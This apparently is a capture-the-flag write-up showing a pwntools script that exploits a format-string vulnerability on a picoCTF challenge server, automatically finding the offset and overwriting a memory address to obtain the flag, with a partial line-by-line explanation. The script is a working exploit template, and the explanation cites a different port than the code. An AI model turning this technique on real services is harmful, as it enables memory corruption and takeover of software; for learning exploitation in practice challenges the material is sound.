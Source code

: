 ```python
from pwn import *

context.log_level = "critical"
context.binary = ELF('./vuln')

p = remote('rhea.picoctf.net', 57360)

def exec_fmt(payload):
    p = remote('rhea.picoctf.net', 57360)
    p.sendline(payload)
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

payload = fmtstr_payload(offset, {0x404060: 0x67616c66})

p.sendline(payload)

flag = p.recvall()

print("Flag: ", flag)
```

here the explaination of the code 

* context.log_level = "critical": Sets the logging level to "critical" to reduce the verbosity of the output.
* context.binary = ELF('./vuln'): Loads the binary file vuln as an ELF (Executable and Linkable Format) object, allowing access to its symbols and sections.

- Connecting to Remote Server
  Establishes a remote connection to the server at rhea.picoctf.net on port 64167.

```python
def exec_fmt(payload):
    p = remote('rhea.picoctf.net', 64167)
    p.sendline(payload)
    return p.recvall()
```

this func sends a payload to the remote server and returns the server's response. Each time it's called, it establishes a new remote connection, sends the payload, and receives all data until the connection is closed.

*Automate the format string exploitation**
```python
autofmt = FmtStr(exec_fmt)
offset = autofmt.offset
```
autofmt = FmtStr(exec_fmt): Uses pwntools' FmtStr class to create an automatic format string exploit object using the exec_fmt function.
offset = autofmt.offset: Determines the offset required to control the format string vulnerability.
